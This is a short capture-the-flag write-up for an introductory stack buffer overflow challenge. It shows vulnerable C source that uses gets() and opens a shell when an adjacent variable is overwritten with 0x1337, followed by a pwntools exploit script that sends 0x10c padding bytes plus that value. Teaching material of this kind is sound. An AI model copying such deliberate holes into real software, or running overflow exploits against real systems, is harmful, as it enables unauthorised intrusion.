



## Intro to PWN 1

Start by running checksec on the binary.



NX and PIE enabled.  We have source code.  Lets view it.

#### main.c
```C
#include <stdio.h> 
#include <stdlib.h> 


int main(){
    char buf[0x100]; 
    int overwrite_me; 
    overwrite_me = 1234; 
    puts("Welcome to PWN 101, smash my variable please.\n"); 
    gets(buf); 
    if (overwrite_me == 0x1337){ 
        system("/bin/sh"); 
    } 
    return 0; 
} 
```

Here we see we just need to overwrite the variable "overwrite_me" to get a shell. Here is what the stack looks like for main.



We need to skip 268 bytes then append 0x00001337 in little endian.  Lets write our exploit.

#### exploit.py
```python
from pwn import *

binary = context.binary = ELF("./dist/pwnme")

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('0.cloud.chals.io', 19595)

payload =  b""
payload += b"A"*0x10c
payload += p32(0x1337)

with open("payload", "wb") as fp:
    fp.write(payload)

p.sendline(payload)
p.interactive()
```

Run the exploit.



Complete!